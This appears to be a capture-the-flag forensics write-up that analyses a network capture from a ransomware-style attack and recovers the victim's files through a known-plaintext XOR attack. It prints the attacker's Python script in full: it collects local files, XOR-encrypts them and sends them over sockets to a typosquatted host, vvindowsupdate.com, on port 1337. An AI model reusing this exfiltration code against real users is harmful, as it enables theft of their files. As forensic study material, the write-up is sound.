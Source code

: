  # 1337 Malware - NahamCon CTF 2024

 ## Challenge Description

 ```We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.```

## Enumeration

We are given a PCAP file that will contain all the information needed to solve the challenge. Let's open it up in Wireshark.

![](./Attachments/wireshark.png)

Quickly looking through the capture, we have a majority of general TCP traffic as well as two HTTP packets. Let's looks closer at the HTTP request and see if there's anything interesting.

![](./Attachments/ransrequest.png)

We see a GET request to `vvindowsupdate.com/rans.py` - looks like the attacker has typosquatted the windowsupdate domain hoping to trick an unsuspecting user into navigating to their domain instead. `rans.py` is interesting so let's see if the response contains the script.

![](./Attachments/ransresponse.png)

Yes! We have the script used to exploit this user in plain text. Let's take a closer look at the payload.

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)
```

The script starts off by importing the modules it needs to function, followed by a key declaration and a comment. It looks like the attacker didn't take his own advice and generated the key using a random 32 byte value. This is probably why the attacker believe his malware to be "broken".

We'll remember this for later and move on to the rest of the script.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths
```

Here we have the three functions defined by the attacker to get the files in the current directory, encrypt them, and then send the encrypted version of the files back to his domain over port 1337.

Finally, the script executes these functions.

```python
files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

It appears as though the intention of the attacker was to encrypt and exfiltrate the users files, and then remove the files from the victim's computer, however `os.remove` is commented out.

`get_all_files()` isn't all that interesting, so let's skip that and look closer at `send_encrypted()`.

```python
def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()
```

The attacker was nice enough to name the files as they were exfiltrated by sending the file name to his server, which can be picked up through the network traffic.

To confirm, let's take another look at the PCAP.

![](./Attachments/filename.png)

Yep, they leaked the file names over the network. We can use this to our advantage later.

The encrypt function is going to be the most interesting for us, so let's take a closer look there.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted
```

We can see that the only form of "encryption" in use is an XOR function, which takes the plaintext of the files and XORs each byte with the key. It will be very important to find the key as this will be the only way we are able to recover the encrypted files.

This is where the fact that file names are leaked comes in handy. If we look further at the files that were exfiltrated, we have this list:

- resources.zip
- ecorp.png
- Welcome Aboard.pdf
- id_rsa
- id_rsa.pub

Before we continue, let's talk quickly about XOR and it's viability in ciphertext generation. XOR by itself is not considered cryptographically secure. The exclusive or function is associative and commutative, which means that the order of input values and how they are grouped does not affect the final output. Also, XOR has a unique property that makes it possible to inverse input and output, called self-inversion. This is especially useful in cryptanalysis because it means that if you have the ciphertext and some corresponding plaintext, you can derive the key that was used to turn plaintext into ciphertext.

This is known as a known-plaintext attack (KPA). More information can be found [here](https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/).

Knowing this about the malware at hand, we know that if we had the plaintext of any of the encrypted files, we could easily derive the key using the XOR function itself.

It might seem like we don't have the plaintext, but we can make a few assumptions about the files that were exfiltrated.

The file formats for .zip, .png, and .pdf all use some form of "magic bytes", or the first few bytes of the file that indicate in what format the data is stored.

- .zip - `0x50 0x4B 0x03 0x04`
- .png - `0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A`
- .pdf - `0x25 0x50 0x44 0x46`

Theoretically we could use these byte strings to derive the strings, but remember that we know the key is 32 bytes in length, so these values would only be able to recover the partial key.

That leaves us `id_rsa` and `id_rsa.pub`. Luckily, we know that id_rsa has a standard format. We can generate an openssh private key using `ssh-keygen` to confirm, but we know that every openssh private key starts with this string: `-----BEGIN OPENSSH PRIVATE KEY-----`.

Yes! This string is 36 characters in length which means it is greater than 32 bytes. We should be able to recover the key with this value.

First, we'll write a script that recovers the key using the ciphertext of the id_rsa file recovered from the PCAP and the known plaintext.

```python
from pwn import xor
import os

def recover_key():
    ciphertext = bytes.fromhex("afef7e7da6970900eeab4da38833...b5f55b98fb892d")

    known_plaintext = "-----BEGIN OPENSSH PRIVATE KEY-----".encode()

    blob = xor(ciphertext, known_plaintext)
    key = blob[:32]
    return key
```

This function XORs the ciphertext and known-plaintext and returns a blob of data, from which we can grab the first 32 bytes. This is the key that was used to encrypt the victim's files!

From there, we can write a script that iterates through the encrypted files downloaded from wireshark and decrypts them all.

```python
def decrypt(ciphertext, key):
    plaintext = xor(ciphertext, key)
    return plaintext

directory = "/home/astra/nahamconctf/forensics/1337malware"
for file in os.listdir(directory):
    if file.endswith('.enc'):
        with open(os.path.join(directory, file)) as f:
            ciphertext = bytes.fromhex(f.read())
            plaintext = decrypt(ciphertext, key)
            b = open(os.path.join(directory, file).strip(".enc"), "wb")
            b.write(plaintext)
```

Now that we have all the files decrypted, we can sift through them for any important information (like the flag!).

Resources.zip is interesting, let's try and unzip it:

![](./Attachments/resourcezip.png)

It's password protected. Let's see if we can find the password somewhere. Let's look at `Welcome Aboard.pdf` next.

![](./Attachments/welcomeaboard.png)

And we've got the password for the zip! All that's left to do is unzip `resources.zip` and get the flag!
